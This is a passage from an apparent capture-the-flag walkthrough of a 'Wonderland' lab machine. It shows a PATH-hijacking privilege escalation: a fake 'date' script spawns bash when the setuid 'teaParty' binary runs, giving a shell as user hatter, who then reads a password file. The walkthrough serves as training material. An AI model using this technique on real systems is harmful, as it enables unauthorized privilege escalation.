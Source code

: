 The interesting line from the strings output is:

```text
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

We can see date is being executed without an absolute path, so we can use the same technique as before and force our own file to be executed instead. Create our own date file and make it executable:

```text
rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash
/bin/bash

rabbit@wonderland:/home/rabbit$ chmod +x date

rabbit@wonderland:/home/rabbit$ ls -l
total 24
-rwxr-xr-x 1 rabbit rabbit    23 Jun  7 19:05 date
-rwsr-sr-x 1 root   root   16816 May 25 17:58 teaParty
```

Now add our folder to the path:

```text
rabbit@wonderland:/home/rabbit$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH

rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

Now run the binary:

```text
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
```

Excellent, that worked and we are now the user hatter. Have a look around:

```text
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)

hatter@wonderland:/home/rabbit$ cd /home/hatter

hatter@wonderland:/home/hatter$ ls
password.txt

hatter@wonderland:/home/hatter$ cat password.txt
<<HIDDEN>>
```
